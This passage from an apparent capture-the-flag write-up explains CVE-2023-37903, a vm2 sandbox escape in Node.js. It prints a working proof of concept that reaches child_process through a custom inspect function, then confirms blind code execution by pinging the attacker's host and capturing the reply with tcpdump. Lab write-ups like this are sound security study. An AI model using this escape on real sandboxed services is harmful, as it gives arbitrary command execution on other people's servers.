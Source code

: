 #### CVE-2023-37903

[CVE-2023-37903](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823) abuses how
NodeJS allows for a custom `inspect` function to be defined:

    
    
    const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');
    
    obj = {
        [customInspectSymbol]: (depth, opt, inspect) => {
            inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
        },
        valueOf: undefined,
        constructor: undefined,
    }
    
    WebAssembly.compileStreaming(obj).catch(()=>{});
    

This POC has the same issue that I need to change the payload from `touch
pwned` to something else, but even then, it doesn’t show the result:

![image-20240404072941416](../img/image-20240404072941416.png)

What’s returned is a JavaScript `Promise` object. There are probably ways to
get the result from this, but I wasn’t able to figure it out with my limited
JavaScript skills. Instead, I’ll test a blind payload, like `ping`. I’ll start
`tcpdump` on my host listening for ICMP packets, and then run `ping -c 1
10.10.14.6` (the `-c 1` is important on Linux systems as without it, `ping`
will run forever):

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    02:46:49.800538 IP 10.10.11.239 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    02:46:49.800564 IP 10.10.14.6 > 10.10.11.239: ICMP echo reply, id 2, seq 1, length 64
    